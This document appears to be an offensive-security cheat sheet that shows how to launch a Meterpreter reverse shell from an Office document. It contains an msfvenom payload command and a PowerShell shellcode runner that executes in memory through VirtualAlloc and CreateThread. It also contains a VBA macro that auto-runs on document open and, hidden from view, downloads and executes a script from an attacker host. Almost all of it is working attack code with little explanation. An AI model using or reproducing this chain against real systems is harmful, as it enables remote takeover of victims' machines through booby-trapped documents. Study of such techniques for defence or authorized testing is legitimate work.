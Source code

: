 &nbsp;
<span style="font-size: 25px; color:white"><b>Powershell Shellcode Runner From VBA</b></span>

Remember that Powershell is a <span style="color:red">64-bit</span> process (encode the payload as x64).
Reverse shell to embed in .ps1 that runs directly in ram.
```powershell
msfvenom -p windows/meterpreter/reverse_https LHOST=<LHOST> LPORT=443 EXITFUNC=thread -f ps1
```
run.ps1 to call from VBA
```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
        uint flAllocationType, uint flProtect);
        
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
            uint dwCreationFlags, IntPtr lpThreadId);
            
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
        UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60... 'stuff here

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Macro to create calling the ps1 above:
```vb
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
